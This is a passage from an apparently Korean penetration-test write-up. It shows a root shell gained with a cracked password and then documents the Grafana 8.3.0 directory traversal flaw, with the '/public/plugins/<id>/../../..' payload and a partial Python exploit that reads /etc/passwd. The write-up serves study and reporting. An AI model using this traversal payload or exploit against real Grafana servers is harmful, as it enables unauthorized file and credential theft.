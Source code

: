 크래킹한 패스워드를 사용하여 root 계정으로 권한 상승을 성공했다.
```sh
su
root@172.31.157.1's password:

# id;hostname;whoami
uid=0(root) gid=0(root) groups=0(root)
ip-172-31-157-1
root
```
## 취약점
### 1. 디렉토리 경로 탐색 및 임의의 파일 읽기 - Grafana 8.3.0
#### 취약점 개요
<table>
  <tr>
    <td> 정보 </td>
    <td> 설명 </td>
  </tr><tr>
    <td> 이름 </td>
    <td> 디렉토리 경로 탐색 및 임의의 파일 읽기 - Grafana 8.3.0 </td>
  </tr><tr>
    <td> 중요도 </td>
    <td> 상 </td>
  </tr><tr>
    <td rowspan="2"> 위치 </td>
    <td> URL: http://172.31.157.1:3000/pubilc/plugins </td>
    </tr><tr>
    <td> 파일 위치: /etc/passwd </td>
    </tr>
  </tr>
</table>

#### 취약점 설명
해당 취약점은 Grafana의 디렉토리 경로 탐색 취약점을 이용한 공격이다.

익스플로잇 코드를 분석해 보면 `plugin_list`를 만들어 Grafana에 있는 플러그인 목록들을 나열하고 exploit함수에서 file_to_read를 통해 공격자가 읽기 원하는 파일을 입력받은 뒤 이를 취약한 URL 경로인 `/public/plugins/설치된 플러그인ID/`과 디렉토리 경로 탐색 취약점을 사용하기 위한`/../../../../../../../../../../../../..`뒤에 포함하여 URL을 구성한 뒤 requests 모듈을 이용해 GET 요청으로 전송하는 것을 볼 수 있다. 이 후, 파일이 존재하면(200) 파일을 출력하고 그렇지 않다면 오류 메시지를 출력하는 것을 볼 수 있다.
```python
plugin_list = [
    "alertlist",
    "annolist",
    "barchart",
    "bargauge",
    "candlestick",
    "cloudwatch",
    "dashlist",
    "elasticsearch",
    "gauge",
    "geomap",
    "gettingstarted",
    "grafana-azure-monitor-datasource",
                             [...]
]

                             [...]
def exploit(args):
    s = requests.Session()
    headers = { 'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.' }

    while True:
```